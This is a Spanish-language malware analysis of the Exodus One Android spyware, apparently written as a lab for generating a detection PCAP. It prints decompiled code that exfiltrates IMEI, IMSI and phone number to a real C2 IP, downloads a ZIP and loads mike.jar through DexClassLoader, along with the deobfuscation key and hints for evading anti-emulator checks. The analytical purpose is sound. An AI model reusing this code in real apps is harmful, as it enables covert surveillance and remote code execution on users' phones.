

Exodus es una plataforma de espionaje para Android distribuida en dos etapas. [Security Without Borders](https://web.archive.org/web/20200314194610/https://securitywithoutborders.org/blog/2019/03/29/exodus.html) denomina *Exodus One* al instalador inicial y *Exodus Two* al conjunto de componentes que este descarga posteriormente. El spyware fue subido a Google Play Store en múltiples ocasiones, una muestra más de las históricas carencias de seguridad de la plataforma Android.


El flujo seleccionado se limita a esa transición: el primer componente identifica el dispositivo, se registra ante el C2 y descarga un archivo ZIP que contiene la segunda etapa. El malware por lo tanto implementa a todos los efectos [**T1407 - Download New Code at Runtime**](https://attack.mitre.org/techniques/T1407/). 

### Análisis estático

| Artefacto | Tipo | Identificación | SHA-256 |
|---|---|---|---|
| `exodus(Referencia MITRE).apk` | APK de Android | Paquete `it.promofferte`; versión 1.0.0; API mínima 14 y objetivo 26 | `8453ce501fee1ca8a321f16b09969c517f92a24b058ac5b54549eabd58bf1884` |

La APK coincide con la muestra de Exodus One utilizada en la investigación de referencia. El código está ofuscado, pero los nombres normalizados durante el análisis permiten seguir la construcción de las peticiones sin alterar sus condiciones ni sus constantes.

Antes de comunicarse con el C2, la clase `RequestHttpsClass` obtiene el IMEI, el IMSI, el nombre del operador, el número de teléfono, el tipo de red, el estado de la tarjeta SIM y la versión de Android. La solicitud solo continúa si el IMEI supera las comprobaciones implementadas, el número no pertenece al rango de prueba `1555` y el dispositivo no presenta las cadenas de un emulador Android genérico. Es decir, en caso de querer ejecutar el malware en Android Studio, se deberá parametrizar la imagen para que las comprobaciones "Anti-VM" no funcionen.

La aplicación concatena los valores en un único texto. Los dos caracteres `#` situados después del número de teléfono son deliberados: entre ellos no se introduce ningún campo.

```java
final byte[] bodyCifrado = CifradoClass
    .funcionCifradoRSA(claveDeEntrada)
    .doFinal((" #" + deviceId
        + "#" + str
        + "#" + line1Number
        + "##" + subscriberId
        + "#" + networkOperatorName
        + "#" + networkType
        + "#" + simState).getBytes());
```

Por tanto, el texto anterior al cifrado presenta esta estructura:

```text
 #<IMEI>#<versión de Android>#<número de teléfono>##<IMSI>#<operador>#<tipo de red>#<estado de la SIM>
```

El C2, el certificado aceptado para TLS y la clave RSA de la etapa se almacenan en `strings.xml` bajo los nombres `staging_host`, `staging_cert` y `staging_key`. La clase `C0995i` recupera cada recurso y lo entrega a `DecodeClassBase64.metodoDecodeXOR()`:

```java
String m8882a() {
    if (this.f8059a != null) {
        return DecodeClassBase64.metodoDecodeXOR(this.f8059a);
    }
    return null;
}

String metodoDecodeC2PublicKey() {
    if (this.stage_key_attr != null) {
        return DecodeClassBase64.metodoDecodeXOR(this.stage_key_attr);
    }
    return null;
}
```

El método de desofuscación decodifica primero el recurso desde Base64 y aplica después un XOR repetitivo con `Kjk1MmphFG`:

```java
static String metodoDecodeXOR(String str) {
    char[] key = {'K', 'j', 'k', '1', 'M', 'm', 'p', 'h', 'F', 'G'};
    StringBuilder result = new StringBuilder();
    try {
        byte[] decoded = Base64.decode(str, 0);
        for (int i = 0; i < decoded.length; i++) {
            result.append((char) (decoded[i] ^ key[i % key.length]));
        }
        return result.toString();
    } catch (Exception ignored) {
        return "";
    }
}
```

La operación permite recuperar tanto el extremo de red como las constantes utilizadas en la ruta de descarga:

```text
staging_host = 54.71.249.137
check-in     = eddd0317-2bdc-4140-86cb-0e8d7047b874
bundle 1     = 56e087c9-fc56-49bb-bbd0-4fafc4acd6e1
bundle 2     = 6b2f7fc3-7cd5-429e-af99-3fe194b20fb9
directorio   = BD014144-796E-41B0-89C5-2EEC42765254/
carga        = mike.jar
clase        = lib.dyn.Main
```

El valor recuperado desde `staging_key` todavía es una representación Base64 de una clave pública X.509. La función `CifradoClass.funcionCifradoRSA()` elimina esta segunda capa, construye la clave RSA y configura `RSA/ECB/PKCS1Padding`:

```java
static Cipher funcionCifradoRSA(String llaveBase64) {
    try {
        byte[] der = m8897a(new ByteArrayInputStream(
            Base64.decode(llaveBase64, 0)
        ));
        PublicKey publicKey = KeyFactory.getInstance("RSA").generatePublic(
            new X509EncodedKeySpec(der)
        );
        Cipher cipher = Cipher.getInstance("RSA/ECB/PKCS1Padding");
        cipher.init(Cipher.ENCRYPT_MODE, publicKey);
        return cipher;
    } catch (Exception ignored) {
        return null;
    }
}
```

Esta clave no interviene en la negociación TLS ni corresponde a la clave del certificado del servidor. Se trata de una segunda protección aplicada al cuerpo antes de entregarlo a HTTPS. Como el módulo RSA tiene 2048 bits, cada cuerpo cifrado ocupa 256 bytes aunque el relleno PKCS#1 v1.5 haga que dos cifrados de los mismos datos produzcan valores diferentes.

La primera petición combina el nombre del paquete y el IMEI en `User-Agent`, utiliza `application/octet-stream` y envía el cuerpo RSA al extremo recuperado:

```java
String userAgent = this.contextoObtenidoEnConstructor.getPackageName()
    + ":" + deviceId;

Request request = new Request.Builder()
    .url("https://" + host + "/" + checkInPath)
    .header("User-Agent", userAgent)
    .post(RequestBody.create(
        MediaType.parse("application/octet-stream"),
        bodyCifrado
    ))
    .build();
```

En red, una vez descifrado TLS, la solicitud presenta esta forma:

```http
POST /eddd0317-2bdc-4140-86cb-0e8d7047b874 HTTP/1.1
User-Agent: it.promofferte:<IMEI>
Content-Type: application/octet-stream
Content-Length: 256
Host: 54.71.249.137

<256 bytes cifrados con RSA/PKCS1 v1.5>
```

La captura publicada por Security Without Borders muestra una respuesta `200 OK`, servida por `nginx/1.4.6 (Ubuntu)`, cuyo cuerpo contiene un identificador hexadecimal. El código no compara ese valor con una constante: conserva el texto recibido para entregarlo posteriormente a la etapa dinámica y considera suficiente que la respuesta HTTP sea satisfactoria.

Después del registro, `RequestHttpsClass` llama dos veces a `C0994h.m8875a()`. Los argumentos decodificados corresponden a las rutas `56e087c9-fc56-49bb-bbd0-4fafc4acd6e1` y `6b2f7fc3-7cd5-429e-af99-3fe194b20fb9`. Cada llamada reutiliza la misma estructura de identificación, guarda la respuesta y la descomprime:

```java
Response response = client.newCall(new Request.Builder()
    .url("https://" + host + "/" + bundlePath)
    .header("User-Agent", context.getPackageName() + ":" + deviceId)
    .post(RequestBody.create(
        MediaType.parse("application/octet-stream"),
        encryptedBody
    ))
    .build()).execute();

if (response.isSuccessful()) {
    BufferedInputStream input = new BufferedInputStream(
        response.body().byteStream()
    );
    FileOutputStream output = new FileOutputStream(
        context.getFilesDir() + "/" + bundlePath
    );
    // Copia de la respuesta y extracción mediante ZipInputStream.
}
```

La investigación de referencia observó que el primer `POST` de descarga devolvía un ZIP con `mike.jar` y utilidades nativas para varias arquitecturas, entre ellas `null`, `rootdaemon` y `sepolicy-inject`. El segundo paquete también forma parte de la implementación, pero no es necesario para el flujo mínimo del laboratorio: la primera respuesta ya permite demostrar que la aplicación incorpora código que no estaba incluido en la APK inicial y a todos los efectos, representar T1407.

La relación con T1407 queda completa en `C1001o.m8908a()`. Tras copiar `mike.jar` desde el directorio descomprimido, la aplicación crea un `DexClassLoader`, recupera la clase `lib.dyn.Main` y la inicializa:

```java
Class loadedClass = new DexClassLoader(
    jarPath,
    context.getCacheDir().getPath(),
    null,
    InterfaceC0997k.class.getClassLoader()
).loadClass(DecodeClassBase64.metodoDecodeXOR("JwMJHykUHkYLJiIE"));
```

El valor ofuscado del último argumento se resuelve como `lib.dyn.Main`. De este modo, la petición de descarga, la respuesta ZIP, su escritura, la extracción de `mike.jar` y la carga de código forman una sola cadena causal. Las capacidades posteriores de Exodus Two quedan fuera del escenario seleccionado, puesto que no aportan al estudio.

### Secuencia comunicativa

El diagrama resume el intercambio que conduce desde el registro de Exodus One hasta la obtención de la segunda etapa:



### Laboratorio de generación del PCAP

El laboratorio emula en Python tanto el cliente como el servidor. Las capacidades de detección de entornos emulados hacen compleja la ejecución en una máquina virtual. Además, el tráfico correspondiente a T1407 es bastante breve y queda bastante claro gracias al análisis estático y la lectura de la referencia. 

| Entidad | Dirección y servicio | Procedencia |
|---|---|---|
| Víctima emulada | `10.40.5.10` | Dirección privada asignada exclusivamente al cliente dentro de la topología aislada. |
| C2 de Exodus | `54.71.249.137:443` | Extremo recuperado de la configuración de Exodus One y corroborado por la captura publicada por [Security Without Borders](https://web.archive.org/web/20200314194610/https://securitywithoutborders.org/blog/2019/03/29/exodus.html). |

El cliente abre TLS 1.2 directamente contra `54.71.249.137:443`, conserva la misma dirección en la cabecera `Host` y envía dos peticiones sobre una sola sesión. La primera reproduce el registro y recibe el identificador documentado por la referencia. La segunda solicita el primer paquete de Exodus Two y recibe un ZIP inocuo que conserva los nombres y las fechas de los componentes publicados, no es el artefacto Exodus Two real.
